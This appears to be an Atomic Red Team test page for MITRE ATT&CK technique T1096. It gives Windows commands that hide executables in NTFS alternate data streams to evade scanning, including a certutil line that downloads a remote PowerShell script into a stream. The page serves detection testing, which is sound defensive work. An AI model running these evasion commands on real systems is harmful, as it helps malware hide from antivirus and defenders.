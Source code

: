 # T1096 - NTFS File Attributes
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1096)
<blockquote>Every New Technology File System (NTFS) formatted partition contains a Master File Table (MFT) that maintains a record for every file/directory on the partition. (Citation: SpectorOps Host-Based Jul 2017) Within MFT entries are file attributes, (Citation: Microsoft NTFS File Attributes Aug 2010) such as Extended Attributes (EA) and Data [known as Alternate Data Streams (ADSs) when more than one Data attribute is present], that can be used to store arbitrary data (and even complete files). (Citation: SpectorOps Host-Based Jul 2017) (Citation: Microsoft File Streams) (Citation: MalwareBytes ADS July 2015) (Citation: Microsoft ADS Mar 2014)

Adversaries may store malicious data or binaries in file attribute metadata instead of directly in files. This may be done to evade some defenses, such as static indicator scanning tools and anti-virus. (Citation: Journey into IR ZeroAccess NTFS EA) (Citation: MalwareBytes ADS July 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Alternate Data Streams (ADS)](#atomic-test-1---alternate-data-streams-ads)

- [Atomic Test #2 - Store file in Alternate Data Stream (ADS)](#atomic-test-2---store-file-in-alternate-data-stream-ads)


<br/>

## Atomic Test #1 - Alternate Data Streams (ADS)
Execute from Alternate Streams

[Reference - 1](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

[Reference - 2](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path | Path of ADS file | path | c:\ADS\|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 #{path}\procexp.cab #{path}\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump #{path}\procexp.exe > #{path}\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1096/src/test.ps1 c:\temp:ttt
makecab #{path}\autoruns.exe #{path}\cabtest.txt:autoruns.cab
print /D:#{path}\file.txt:autoruns.exe #{path}\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg #{path}\file.txt:evilreg.reg
regedit /E #{path}\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
expand \\webdav\folder\file.bat #{path}\file.txt:file.bat
esentutl.exe /y #{path}\autoruns.exe /d #{path}\file.txt:autoruns.exe /o
```






<br/>
<br/>

## Atomic Test #2 - Store file in Alternate Data Stream (ADS)
Storing files in Alternate Data Stream (ADS) similar to Astaroth malware.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_path | Path of file to hide in ADS | path | c:\windows\system32\cmd.exe|
| ads_file_path | Path of file to create an ADS under | path | C:\Users\Public\Libraries\yanki\desktop.ini|
| ads_name | Name of ADS | string | ADSName|


#### Attack Commands: Run with `powershell`! 
```
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```
Remove-Item -Path "#{ads_file_path}" -Stream "#{ads_name}"
```





<br/>
